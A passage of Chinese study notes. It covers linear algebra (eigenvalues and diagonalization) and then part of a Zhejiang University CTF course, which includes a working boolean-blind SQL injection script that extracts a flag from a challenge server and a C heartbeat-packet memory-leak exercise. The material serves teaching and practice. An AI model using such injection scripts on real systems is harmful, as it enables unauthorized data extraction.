事实上\(A=\alpha\alpha^\mathrm{T}=\begin{pmatrix} 1 & 0 & -1 \\ 0 & 0 & 0 \\ -1 & 0 & 1 \end{pmatrix}\)，由\(|\lambda E-A|=0\)解得\(A\)的特征值为\(\lambda_1=\lambda_2=0,\lambda_3=2\)，而根据\(A^n\)的特征值性质可知，\(6E-A^n\)的特征值为\(6-\lambda_1^n,6-\lambda_2^n,6-\lambda_3^n\)，即\(6,6,6-2^n\)，因此\(|6E-A^n|=6^2(6-2^n)=36(6-2^n)\).
-
由于\(A\)的特征值为\(1,-2,-1\)，因此\(|A|=1\times(-2)\times(-1)=2\)，而\(A^*\)的特征值为\(|A|\lambda^{-1}\)，因此\(A^*\)的特征值为\(2,-1,-2\)，故\(A^*+3E\)的特征值为\(A^*\)的特征值加3（即为\(5,2,1\)，又根据\(A^{-1}\)和\(A^2\)特征值的性质可知，\((A^{-1})^2+2E\)的特征值为\(1^2+2,(-1/2)^2+2,(-1)^2+2\)，即为\(3,9/4,3\)，而\(A^2-A+E\)的特征值根据\(f(\sigma)\)特征值性质的讨论可知为\(1^2-1+1,(-2)^2-(-2)+1,(-1)^2-(-1)+1\)，即为\(1,7,3\)，因此\(|A^2-A+E|=1\times 7\times 3=21\).
-
设\(AX=\lambda X(X\neq 0)\)，则\((A^2-A-2E)X=(\lambda^2-\lambda-2)X=O\)，因此\(\lambda=-1\)或\(\lambda=2\)，根据对合矩阵的讨论可知，\(A\)的特征值恰为-1和2. 又\(|A|=2\)，且\(A\)为3阶矩阵，因此\(A\)的3个特征值必为-1，-1，2.
又\(A^*\)的特征值为\(|A|\lambda^{-1}\)，因此\(A^*\)的特征值为\(1,-2,-2\)，\(A^*+3E\)的特征值为\(A^*\)的特征值加3，即\(\lambda_1=\lambda_2=1,\lambda_3=4\)，故\(|A^*+3E|=\lambda_1\lambda_2\lambda_3=4\).
- 由题意知\(|A|=5\)，故\(A^*\)的特征值为\(|A|\lambda^{-1}\)即为\(\mu_1=\mu_2=-5,\mu_3=1\)，而\(A_{11}+A_{22}+A_{33}\)就是\(A^*\)的迹（即矩阵对角线元素之和），因此\(A_{11}+A_{22}+A_{33}=\mu_1+\mu_2+\mu_3=-9\).
特征向量与特征子空间的性质¶
-
\(\sigma\)的不同特征值对应的特征向量线性无关；
-
\(\sigma\)的不同特征值对应的特征子空间的和为直和；
-
\(\sigma\)最多有\(\dim V\)个不同的特征值.
有以下推论
Proof
- 设 \(\lambda_1, \ldots, \lambda_m\) 是 \(\sigma\) 的互异特征值，\(\xi_1, \ldots, \xi_m\) 是相应的特征向量。反证法，我们假设 \(\xi_1, \ldots, \xi_m\) 线性相关，由线性相关性引理可知，存在 \(k\) 是使得
成立的最小整数，则存在 \(c_1, \ldots, c_{k-1}\) 使得
$$ \xi_k = c_1\xi_1 + \cdots + c_{k-1}\xi_{k-1}. $$
将 \(\sigma\) 作用到上式两边，我们有
$$ \lambda_k \xi_k = c_1 \lambda_1 \xi_1 + \cdots + c_{k-1} \lambda_{k-1} \xi_{k-1}. $$
将上式两边乘以 \(\lambda_k\)，然后减去上式，我们有
$$ 0 = c_1 (\lambda_k - \lambda_1)\xi_1 + \cdots + c_{k-1} (\lambda_k - \lambda_{k-1})\xi_{k-1}. $$
由于我们选取的 \(k\) 是满足 \(\xi_k \in \mathbf{spa}(\xi_1, \ldots, \xi_{k-1})\) 的最小整数，因此 \(\xi_1, \ldots, \xi_{k-1}\) 线性无关，故 \(c_1 = \cdots = c_{k-1} = 0\)，因此 \(\xi_k = 0\)，这与 \(\xi_k\) 是特征向量矛盾，因此 \(\xi_1, \ldots, \xi_m\) 线性无关。
- 回忆直和的证明方法，我们选取合适等价命题进行证明。假设
$$ \xi_1 + \cdots + \xi_m = 0, $$
其中 \(\xi_i \in V_{\lambda_i}\)，由于 \(\sigma\) 的不同特征值对应的特征向量线性无关，因此 \(\xi_1, \ldots, \xi_m\) 不可能是特征向量，否则可知它们线性相关，故必有 \(\xi_1 = \cdots = \xi_m = 0\)，这表明 \(\sigma\) 的不同特征值对应的特征子空间的和为直和。
- 设 \(\lambda_1, \ldots, \lambda_m\) 是 \(\sigma\) 的互异特征值，\(\xi_1, \ldots, \xi_m\) 是相应的特征向量。前面已经证明了 \(\xi_1, \ldots, \xi_m\) 线性无关，因此 \(\dim V \geqslant m\)，得证。
-
若\(\lambda_1,\ldots,\lambda_m\)是线性映射\(\sigma\)互异的特征值，则\(V_{\lambda_i}\cap\sum\limits_{j\neq i}V_{\lambda_j}=\{0\} \enspace(i=1,\ldots,m)\)，则一个特征向量不能属于多个特征值.
-
\(\sigma\)的不同特征值\(\lambda_1,\ldots,\lambda_m\)对应的特征子空间\(V_{\lambda_1},\ldots,V_{\lambda_m}\)的基向量合在一起构成的向量组线性无关，且是\(V_{\lambda_1}+V_{\lambda_2}+\cdots+V_{\lambda_m}\)的基.
Definition
- 代数重数:某一特征值\(\lambda\)的代数重数指重根的个数；
- 几何重数:某一特征值的几何重数指特征向量生成线性空间的维数
若\(\lambda\)是\(\sigma\)的特征值，则\(\lambda\)的代数重数大于等于几何重数
我们思考，如果所有的特征子空间已经是全空间\(V\),那么是否所有向量都是特征向量呢?下面的例子告诉我们不是这样的,事实上，只有当特征值唯一的时候，这个结论才正确:
2013-2014期末
设 \(V(\mathbf{F})\) 是 \(n\) 维线性空间，\(\sigma \in \mathcal{L}(V)\)，证明：
- 若 \(\alpha, \beta\) 是 \(\sigma\) 的属于不同特征值的特征向量，则 \(c_1c_2 \neq 0\) 时，\(c_1 \alpha + c_2 \beta\) 不是 \(\sigma\) 的特征向量；
- \(V\) 中的每一非零向量都是 \(\sigma\) 的特征向量 \(\iff \sigma = c_0 I_V\)，其中 \(c_0 \in \mathbf{F}\) 是一个常数，\(I_V\) 是恒等变换。
Proof
-
设 \(\sigma(\alpha) = \lambda_1 \alpha, \sigma(\beta) = \lambda_2 \beta\)，其中 \(\lambda_1 \neq \lambda_2\)，并假设 \(c_1 \alpha + c_2 \beta\) 是 \(\sigma\) 的特征向量，即存在 \(\lambda_0 \in \mathbf{F}\) 使得
$$ \sigma(c_1 \alpha + c_2 \beta) = \lambda_0 (c_1 \alpha + c_2 \beta). $$
展开括号，我们有
$$ c_1 \sigma(\alpha) + c_2 \sigma(\beta) = c_1 \lambda_0 \alpha + c_2 \lambda_0 \beta. $$
即
$$ c_1 \lambda_1 \alpha + c_2 \lambda_2 \beta = c_1 \lambda_0 \alpha + c_2 \lambda_0 \beta, $$
即
$$ (\lambda_1 - \lambda_0) c_1 \alpha + (\lambda_2 - \lambda_0) c_2 \beta = 0. $$
由于 \(\alpha, \beta\) 线性无关，因此
$$ c_1 (\lambda_1 - \lambda_0) = c_2 (\lambda_2 - \lambda_0) = 0. $$
当 \(c_1 c_2 \neq 0\) 时，我们有 \(\lambda_1 = \lambda_0 = \lambda_2\)，这与 \(\lambda_1 \neq \lambda_2\) 矛盾，因此 \(c_1 \alpha + c_2 \beta\) 不是 \(\sigma\) 的特征向量。 -
右推左显然，我们只考虑左推右的证明。由上一小问结论可知，若 \(V\) 中的每一非零向量都是 \(\sigma\) 的特征向量，\(\sigma\) 不可能有不同的特征值（因为有不同的特征值就有不同特征值对应的特征向量，但它们的线性组合一定仍在 \(V\) 中，这与从第一问中得到的结论，即它不是 \(\sigma\) 的特征向量矛盾）。设 \(c_0\) 是 \(\sigma\) 的唯一的特征值，则对于任意 \(\alpha \in V\)，我们有 \(\sigma(\alpha) = c_0 \alpha\)，即 \(\sigma\) 在任意元素上的像都已经唯一确定，则显然在 \(V\) 的一组基上的像也唯一确定，由线性映射唯一确定的定理可知这样的线性映射是唯一的，\(\sigma = c_0 I_V\) 符合要求，因此它就是我们要找的线性映射。
Example
设 \(A\) 是数域 \(\mathbf{F}\) 上一个 \(n\) 阶方阵，\(E\) 是 \(n\) 阶单位矩阵，\(\alpha_1 \in \mathbf{F}^n\) 是 \(A\) 的属于特征值 \(\lambda\) 的一个特征向量，向量组 \(\alpha_1, \alpha_2, \ldots, \alpha_s\) 按如下方式产生：
证明向量组 \(\{\alpha_1, \alpha_2, \ldots, \alpha_s\}\) 线性无关。
Proof
由于 \(\alpha_1\) 是 \(A\) 属于特征值 \(\lambda\) 的特征向量，故有 \((A - \lambda E) \alpha_1 = 0\)。
设
$$ \sum_{i=1}^{s} k_i \alpha_i = 0, $$
两边同时左乘 \((A - \lambda E)\) 可得
$$ (A - \lambda E) \sum_{i=1}^{s} k_i \alpha_i = \sum_{i=1}^{s} k_i (A - \lambda E) \alpha_i = k_1 (A - \lambda E) \alpha_1 + \sum_{i=1}^{s-1} k_{i+1} \alpha_i = \sum_{i=1}^{s-1} k_{i+1} \alpha_i = 0. $$
以此类推，在等式两边不断左乘 \((A - \lambda E)\) 可得：对于 \(\forall r \in \{1, \cdots, s-1\}\) 都有
$$ \sum_{i=1}^{s-r} k_{i+r} \alpha_i = 0. $$
令 \(r = s-1\) 得到 \(k_s \alpha_1 = 0, \quad k_s = 0\)。再依次代回不难得到 \(k_i = 0, \quad \forall i \in \{1, \cdots, s\}\)，从而向量组 \(\alpha_1, \cdots, \alpha_s\) 线性无关。
可对角化的条件¶
可对角化
设\(\sigma\in\mathcal{L}(V)\)，如果存在\(V\)的一组基使得\(\sigma\)在这组基下的矩阵是对角矩阵，则称\(\sigma\)可对角化.
设\(V\)是数域\(\mathbf{F}\)上的\(n\)维线性空间，\(\sigma\)是\(V\)上的线性变换，\(\lambda_1,\lambda_2,\ldots,\lambda_s\in\mathbf{F}\)是\(\sigma\)的所有互异特征值，则以下条件等价：
- \(\sigma\) 可对角化；
- \(\sigma\) 有 \(n\) 个线性无关的特征向量，它们构成 \(V\) 的一组基；
- \(V\) 有在 \(\sigma\) 下不变的一维子空间 \(U_1, \ldots, U_n\)，使得 \(V = U_1 \oplus \cdots \oplus U_n\)；
- \(V = V_{\lambda_1} \oplus V_{\lambda_2} \oplus \cdots \oplus V_{\lambda_s}\)；
- \(n = \dim V_{\lambda_1} + \dim V_{\lambda_2} + \cdots + \dim V_{\lambda_s}\)；
- \(\sigma\) 每个特征值的代数重数等于几何重数。
有推论
若 \(n\) 阶矩阵 \(A\) 有 \(n\) 个不同的特征值，则 \(A\) 可对角化. 反之，\(A\) 可对角化不一定有 \(n\) 个特征值.
Key-point
总结而言，只要特征子空间可以张成整个空间，那么这个线性变换就是可对角化的。
对角化的基本步骤¶
- 先任意写出 \(\sigma\) 在一组基 \(\mathbf{B}\) 下的矩阵 \(A\)，当然为了计算方便一般选取自然基；
- 利用特征多项式 \(f(\lambda) = |\lambda E − A| = 0\) 求出 \(A\) 的所有不同特征值；
- 解线性方程组 \(AX = \lambda X\)（实际上就是方程组 \((\lambda E − A)X = 0\)，其中 \(\lambda\) 是上一步求 出的特征值）求出 \(A\) 在不同特征值下的线性无关特征向量；
- 第三步中求得的所有向量就是 \(\lambda\) 的特征向量在基 \(B\) 下的坐标，根据前面的讨论，\(\sigma\) 的特征向量也就是使得 \(\sigma\) 的矩阵表示为对角矩阵的那组基.
- 当然，如果题目中直接给出求 \(P\) 使得 \(P^{−1}AP\) 为对角矩阵，那么我们只需进行 2、3 两步，并将 3 中得到的向量按列排列成矩阵 P 即可 6.如果要求\(P\)是正交矩阵，那么3中求出来的所有向量需要在 各自的特征子空间中正交化 。
Example
求矩阵
的所有特征值，对应的特征子空间，以及与 \(A\) 相似的一个对角矩阵.
Answer
对于求解矩阵的对角化问题，首先求出其特征多项式（具体步骤不展开，实际上就是三阶行列式的计算，可以使用按行（列）展开、公式法或者初等变换化为三角矩阵等方法）\(f(\lambda)=|\lambda E-A|=(\lambda-1)^2(\lambda+2)\)，令\(f(\lambda)=0\)，解得特征值为 \(\lambda_1=\lambda_2=1,\lambda_3=-2\).
接下来求解特征向量和特征子空间，即求解\((E-A)x=0\)和解\((-2E-A)x=0\)，得到特征值1对应的特征子空间为\(\mathbf{spa}((-1,1,0)^{\mathrm{T}},(1,0,1)^{\mathrm{T}})\)，特征值-2对应的特征子空间为\(\mathbf{spa}((-1,-1,1)^{\mathrm{T}})\).
与\(A\)相似的对角矩阵实际上就是特征值排列在对角线上的结果，即 \(\mathbf{diag}(1,1,-2)\).
Example
设 \(T\) 是次数小于等于 2 的实多项式线性空间 \(V\) 上的变换，对任意 \(f(x) \in V\)，定义
证明 \(T\) 是 \(V\) 上的线性变换，且\(T\)可对角化.
Answer
首先证明这是线性变换. 首先验证线性性，对于任意\(f(x),g(x)\in V\)，\(a,b\in\mathbf{R}\)，我们有
然后说明这是\(V\)上的线性变换，即该映射的到达空间是\(V\)，即\(T(f(x))\in V\)， 因为\(f(x)\)是次数小于等于2的实多项式，设\(f(x)=ax^2+bx+c\)，则
因此\(T\)是\(V\)上的线性变换.
下面我们来判断\(T\)是否可对角化. 线性变换的可对角化问题第一步要转化为任意一组基下的矩阵，然后判断矩阵是否可对角化，因此我们先任意选取一组基，为方便我们选取自然基\(\{1,x,x^2\}\)，然后求出\(T\)在这组基下的矩阵\(A=\begin{pmatrix} 1 & -2 & 0 \\ 0 & 2 & -4 \\ 0 & 0 & 3 \end{pmatrix}\)，然后求出其特征多项式\(f(\lambda)=|\lambda E-A|=(\lambda-1)(\lambda-2)(\lambda-3)\)，令\(f(\lambda)=0\)，解得特征值为 \(\lambda_1=1,\lambda_2=2,\lambda_3=3\). 即该3阶矩阵有3个不同的特征值，因此可知\(A\)可对角化，即\(T\)可对角化.
经典问题¶
可对角化求矩阵幂
已知\(A=\begin{pmatrix} 0 & \dfrac{1}{2} & \dfrac{1}{2} \\[2ex] 1 & -\dfrac{1}{2} & \dfrac{1}{2} \\[2ex] 1 & -\dfrac{1}{2} & \dfrac{1}{2} \end{pmatrix}\)，求\(A^n\).
Answer
首先求出\(A\)的特征多项式\(f(\lambda)=|\lambda E-A|=\lambda(\lambda-1)(\lambda+1)\)，令\(f(\lambda)=0\)，解得特征值为 \(\lambda_1=0,\lambda_2=1,\lambda_3=-1\).
接下来求解特征向量和特征子空间，实际上就是求解\((0E-A)x=0,(-E-A)x=0,(E-A)x=0\)，得到特征向量为
所以记\(P=(\eta_1,\eta_2,\eta_3)\)，则\(A=P\mathbf{diag}(0,1,-1)P^{-1}\)，因此
进一步计算得到
秩1矩阵可对角化条件
设\(\alpha\)和\(\beta\)是\(\mathbf{R}^n\enspace (n>1)\)中两个列向量，\(A=\alpha\beta^\mathrm{T}\neq O\).
-
求\(A\)的特征值；
-
证明：\(\alpha^\mathrm{T}\beta=0\iff A\)不可对角化.
Answer
- 我们知道，\(r(A)\leqslant\min{\{r(\alpha),r(\beta)\}}=1\)，并且\(A\neq O\)因此\(r(A)>0\)，故\(A\)的秩为1. 而\(n>1\)，因此\(A\)一定不可逆，故0一定是\(A\)的特征值，且对应的特征子空间维数为\(AX=0\)的解空间维数，即为\(n-1\).
由此我们知道\(A\)最多有两个特征值，因为0的代数重数（即作为\(n\)次特征多项式的零点次数）必然大于等于其几何重数\(n-1\)，当期代数重数为\(n-1\)时可能还有一个一重特征值. 我们利用特征值之和等于\(A\)的迹来找出可能的第二个特征值. 我们设\(\alpha=(a_1,a_2,\ldots,a_n)^\mathrm{T},\beta=(b_1,b_2,\ldots,b_n)^\mathrm{T}\)，则\(A=\alpha\beta^\mathrm{T}=\begin{pmatrix} a_1b_1 & a_1b_2 & \cdots & a_1b_n \\ a_2b_1 & a_2b_2 & \cdots & a_2b_n \\ \vdots & \vdots & \ddots & \vdots \\ a_nb_1 & a_nb_2 & \cdots & a_nb_n \end{pmatrix}\)， 因此\(A\)的迹为\(\sum\limits_{i=1}^na_ib_i=\alpha^\mathrm{T}\beta=\sum\limits_{i=1}^n\lambda_i\)，其中\(\lambda_i\)为\(A\)的特征值. 若\(\alpha^\mathrm{T}\beta\neq 0\)，则\(\lambda_i=0,\enspace i=1,\ldots,n-1\)，\(\lambda_n=\alpha^\mathrm{T}\beta\). 若\(\alpha^\mathrm{T}\beta=0\)，则\(A\)的所有特征值均为0.
- 由上一小问可知，若\(\alpha^\mathrm{T}\beta=0\)即\(A\)的全部特征值为0，因此只有一个\(n-1\)维的特征子空间，故特征子空间直和不等于\(V\)，故不可对角化.
反之，若\(A\)不可对角化，我们用反证法. 假设\(\alpha^\mathrm{T}\beta\neq 0\)，则\(A\)有两个特征值，一个为0，一个为\(\alpha^\mathrm{T}\beta\)，因此\(A\)有两个特征子空间，一个是0对应的\(n-1\)维特征子空间，一个是\(\alpha^\mathrm{T}\beta\)对应的一维特征子空间，因此\(V\)可分解为两个特征子空间的直和，与\(A\)不可对角化矛盾，因此\(\alpha^\mathrm{T}\beta=0\).
幂零矩阵不可对角化
设\(A\)为\(n\)阶非零矩阵，且\(A^m=O\enspace(m\in\mathbf{N}_+,\enspace m>1)\). 证明：\(A\)不可对角化；
Answer
设\(\lambda\)是\(A\)的特征值，由题意\(\lambda^m=0\)，即\(\lambda=0\)，因此\(A\)的所有特征值都为0. 但\(r(A)>0\)（因为\(A\)不是零矩阵），因此0对应的特征子空间维数为\(n-r(A)<n\)，因此\(A\)不可对角化.
给出矩阵方程问对角化
-
设\(A\)为\(n\)阶矩阵，且\(A^2=2A\). 证明：\(A\)可对角化，并求出与之相似的对角矩阵（注：本题结论可推广到任意的\(A^2=kA\)）；
-
设\(A\)为二阶矩阵，非零向量\(\alpha\)不是\(A\)的特征向量，且\(A^2\alpha-3A\alpha+2\alpha=0\). 证明：\(\alpha\)和\(A\alpha\)线性无关且\(A\)可对角化并求与\(A\)相似的对角矩阵.
Answer
1. 由题意\(A^2-2A=O\)，因此\(A\)的特征值就是方程\(\lambda^2-2\lambda=0\)的解，即\(\lambda_1=0,\lambda_2=2\).
接下来我们需要说明0和2对应的特征子空间维数之和为\(n\)，即\(\dim V_0+\dim V_2=n\)，其中\(V_0\)和\(V_2\)分别为0和2对应的特征子空间. 事实上，由\(A^2=2A\)可知\(A(A-2E)=O\)，由知\(r(A)+r(A-2E)\leqslant n\)，又根据秩不等式\(r(A)+r(B)\geqslant r(A+B)\)，因此\(r(A)+r(A-2E)=r(A)+r(2E-A)\geqslant r(A+(2E-A))=r(2E)=n\). 综上可知，\(r(A)+r(A-2E)=n\).
实际上，\(V_0\)就是\(AX=0\)的解空间，\(V_2\)就是\((A-2E)X=0\)的解空间，因此\(\dim V_0=n-r(A),\dim V_2=n-r(A-2E)\)，因此由\(r(A)+r(A-2E)=n\)可知\(\dim V_0+\dim V_2=2n-n=n\)，即0和2对应的特征子空间维数之和为\(n\)，因此\(A\)可对角化.
由于可对角化矩阵代数重数等于几何重数，因此特征值0对应的代数重数为\(n-r(A)\)，特征值2对应的代数重数为\(r(A)\)，因此我们可以得到与\(A\)相似的对角矩阵为\(\mathbf{diag}(0,\ldots,0,2,\ldots,2)\)，其中0的个数为\(n-r(A)\)，2的个数为\(r(A)\).
2. 反证法，假设\(\alpha\)和\(A\alpha\)线性相关，则存在不全为零的常数\(k_1,k_2\)使得\(k_1\alpha+k_2A\alpha=0\). 显然\(k_2\neq 0\)，因为假设\(k_2=0\)，则\(k_1\alpha=0\)，由于\(\alpha\neq 0\)，故\(k_1=0\)，这与\(k_1,k_2\)不全为0矛盾. 因此我们有\(A\alpha=-\dfrac{k_1}{k_2}\alpha\)，即\(\alpha\)是\(A\)的特征向量，这与题设矛盾，因此\(\alpha\)和\(A\alpha\)线性无关.
由题意，\(A^2\alpha-3A\alpha+2\alpha=0\)，即\((A^2-3A+2E)\alpha=0\)，又\(\alpha\neq 0\)，因此\(A^2-3A+2E\)不可逆，从而\(|A^2-3A+2E|=|E-A||2E-A|=0\)，故\(|E-A|=0\)或\(|2E-A|=0\).
若\(|E-A|\neq 0\)，则\(E-A\)可逆，因此\((A^2-3A+2E)\alpha=(E-A)((2E-A)\alpha)=0\)可知\((2E-A)\alpha=0\)，即\(A\alpha=2\alpha\)，故\(\alpha\)为\(A\)的特征向量，这与条件矛盾，因此\(|E-A|=0\). 同理，\(|2E-A|=0\)，因此\(A\)有两个特征值1和2，又\(A\)是2阶矩阵，因此由\autoref{cor:可对角化必要条件} 可知\(A\)一定可对角化，且对角矩阵为\(\begin{pmatrix} 1 & 0 \\ 0 & 2 \end{pmatrix}\).
若当矩阵不可对角化
证明\(r\)阶上三角矩阵\((r>1)\)
不与对角阵相似.
Answer
首先求出特征多项式为\(f(\lambda)=|\lambda E-J_0|=(\lambda-\lambda_0)^r\)，因此\(J_0\)只有一个特征值\(\lambda_0\)，且代数重数为\(r\).
接下来求几何重数，即\(J_0X=\lambda_0X\)的解空间维数，即\((\lambda_0 E-J_0)X=O\)的解空间维数，事实上由于\(r(\lambda_0 E-J_0)=r-1\)，因此解空间维数为\(r-(r-1)=1\)，即几何重数为\(1<r\)，因此不可对角化
AB=BA
设 \( A, B \in M_n(\mathbf{F}) \), \( AB = BA \), 证明：
- 若 \( X \) 是矩阵 \( A \) 属于特征值 \( \lambda_0 \) 的特征向量，则 \( BX \in V_{\lambda_0} \).
- \( A \) 和 \( B \) 至少有一个共同的特征向量.
- \( A \) 有 \( n \) 个不同的特征值则
- \( AB = BA \) 当且仅当 \( A \) 的特征向量也是 \( B \) 的特征向量.
- 存在次数小于等于 \( n-1 \) 的多项式 \( f(x) \) 使得 \( B = f(A) \).
- 若 \( A, B \) 均可对角化，则对角化的过渡矩阵可以相同（同时对角化）.
- \( A, B \) 可以同时上三角化，即存在可逆矩阵 \( P \) 使得 \( P^{-1}AP \) 和 \( P^{-1}BP \) 都是上三角矩阵.
设 \( n \) 阶方阵 \( A \) 和 \( B \) 都可对角化，并且它们有相同的特征子空间（但不一定有相同的特征值），证明 \( AB = BA \).
习题¶
-
设\(A\)为n阶复方阵,\(P\)为可逆矩阵。证明\(tr(A)=tr(P^{-1}AP)\)
-
已知\(A\)为3阶矩阵，特征值为1，2，3;求\(|A^2+4A+E|\)
-
证明:若\(A^2-(\lambda_1+\lambda_2)A+\lambda_1 \lambda_2 E = O,\lambda_1 \neq \lambda_2\),则\(A\)可对角化(Hint:矩阵方程可对角化条件),并判断以下说法说法哪一个正确
- \(A\)的特征值兼有一定兼有\(\lambda_1\)和\(\lambda_2\)
- \(A\)可对角化，但其特征值不一定同时有\(\lambda_1\)和\(\lambda_2\),可能为\(\lambda_1\)和\(\lambda_1\),\(\lambda_2\)和\(\lambda_2\),或者\(\lambda_1\)和\(\lambda_2\)
-
证明秩为1的向量可以写为\(\alpha^\mathrm{T}\beta\),(回忆相抵标准型~)
-
设 \(\alpha\) 为 \(n\) 维实向量且 \(\alpha^\mathrm{T} \alpha =1\),求矩阵\(I-\alpha \alpha^\mathrm{T}\)的特征值(Hint: 特征多项式展开)
-
\(A,B\)都是\(n\)阶矩阵，证明\(AB+B\)与\(BA+B\)有相同的特征值.(Hint:证明相似)
-
判断并证明：\(n\)阶方阵\(A\)满足\(A^2-5A+5E_n=0\)，则对于所有的有理数\(r\),有\(A+rE_n\)可逆
-
记
证明：
- \(X\) 是 \(M_{3 \times 3}(\mathbb{R})\) 的一个子空间，并求该子空间的维数；
- 对任意可逆矩阵 \(A \in X\)，\((1, 1, 1)^\mathrm{T}\) 是 \(A\) 和 \(A^{-1}\) 的特征向量；
- 对任意可逆矩阵 \(A \in X\)，\(A^{-1} \in X\)。
Ended: LINEAR-ALGEBRA
CTF ↵
浙江大学AAA短学期课程¶
约 320 个字 117 行代码 预计阅读时间 3 分钟
7-2 lec1¶
授课：常瑞，王鹤翔(TonyCrane)
courese website¶
课程介绍¶
第一节课例行介绍课程内容，老师以及TA，CTF介绍:
-
web
-
misc
-
crypto
-
pwn
-
reverse
-
著名CTF比赛介绍
Note
- 基础模块 lab0+5个实验 55%
- 考勤 %5
- 五个专题 每次作业 20% ，自选2个或以上
如何学习CTF¶
lab0¶
lab0 作为课程第一个作业，需要全部做完
Note
由于lab0报告中我已经写过一遍解释，不想再照搬上来力，所以只写个大概
Web¶
Token¶
背景：点击一个按钮1337次会得到Flag，但是鼠标靠近就会使得按钮消失，F12查看源代码也被禁止。
-
view-source：

-
curl命令
需要以同一个用户来执行1337次点击
Hint
布尔盲注¶
只有两种输入被允许，空格也不允许，1和2，但是会进行布尔运算，可以利用括号代替空格
Hint
import requests
import string
flag=''
url='http://040601e5-a92b-4bc9-8831-f9863d3d8381.node5.buuoj.cn:81/'
ascii_list=string.printable
done=0
index=0
while done != 1:
for i in ascii_list:
input='if(ascii(substr((select(flag)from(flag)),{0},1))={1},1,2)'.format(index,ord(i))
post_in={"id":input}
res=requests.post(url=url,data=post_in)
if 'glzjin' in res.text:
flag+=i
print(flag)
index+=1
if i=='}':
done=1
break
Pwn¶
寻找可能发生的内存泄漏
Hint
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>
struct hbpkt
{
uint32_t size;
uint32_t timestamp;
uint32_t index;
uint32_t cred;
char data[];
};
struct hbpkt *get_heart_beat()
{
uint8_t buffer[0x1000] = {0};
fread(buffer, sizeof(struct hbpkt), 1, stdin);
struct hbpkt *tmp = (struct hbpkt *)buffer;
if (tmp->size > 0x1000)
return NULL;
if(tmp->size > sizeof(struct hbpkt))fread(tmp->data, tmp->size - sizeof(struct hbpkt), 1, stdin);
else {
printf("Invalid size\n");
return NULL;
}//增加判断，防止 size 小于等于 sizeof(struct hbpkt) 时无符号数溢出
uint32_t real_size = sizeof(struct hbpkt) + strlen(tmp->data);
struct hbpkt *res = malloc(real_size);
if (!res)
return NULL;
memcpy(res, buffer, real_size);
res->index += 1;
res->size = real_size;//更新size，防止溢出
return res;
}
int reply_heart_beat(struct hbpkt *pkt)
{
int err=0;
int written;
if (pkt->size)
{
written = fwrite(pkt, 1, pkt->size, stdout);
fflush(stdout);
}
if (written == 0 || written != pkt->size)
{
err = 1;
}
return err;
}
int main()
{
int err;
while (true)
{
struct hbpkt *p = get_heart_beat();
if (!p)
continue;
err = reply_heart_beat(p);
if (err)
{
free(p);
continue;
}
free(p);//释放内存
}
}
Reverse¶
反汇编IDA工具的使用
Misc¶
Cyperchef，神奇妙妙小工具¶
LSB隐写¶
Crypto¶
古典密码-跳舞的小人¶
RSA解密-模逆元求解¶
web
约 3168 个字 387 行代码 预计阅读时间 16 分钟
7-3 lec2-Web¶
授课：叶耀阳
前置¶
下载 - PHPstudy - Node.js
Web 应用架构：客户端+服务端¶
桌面应用和Web应用在架构上有显著的区别。桌面应用通常是在本地运行的独立程序，而Web应用则需要依赖客户端和服务端的协作。
- 客户端：你的浏览器
- 可视化：图形、图片、布局…… HTML + CSS
- 人机交互逻辑：按钮点击，登录，发送请求……JS
- 缓存、Cookie
- 安全：不能将私密的、不该获取的信息传出去（比如 Cookie），不能为所欲为（比如注销其他网站的账号）
- 服务端：某台或很多台服务器
- 认证与鉴权：如何证明你是你
- Authentication(认证)
- Authorization(鉴权)
- 处理请求：用户需要做什么？将结果返回客户端
- 服务器也可以有不同分工：前端后端、数据库……
- 安全：用户不能获得不该获取的信息（比如 flag），不能为所欲为（比如任意代码执行）
- 认证与鉴权：如何证明你是你
网络：数据交换¶
- 数据包的传输与路由 想象一下，数据包就像是一封封信件，而网络则是遍布全球的邮政系统。当我们在电脑上点击发送邮件时，数据被切割成一个个小包裹，即数据包。这些数据包随后被送往最近的邮局，也就是路由器。路由器就像邮局的分拣员，根据包裹上的地址（即IP地址），决定将它们送往下一个邮局，直至最终到达目的地。这个过程中，每个路由器都会查看数据包的目的地，并选择最佳路径，确保数据包能够快速、准确地到达。
- 域名与DNS系统
在网络的世界里，IP地址就像是门牌号码，虽然精确，但记忆起来却颇为困难。这时，域名系统（DNS）就如同一个智能的电话簿，将复杂的IP地址转化为易于记忆的域名，比如
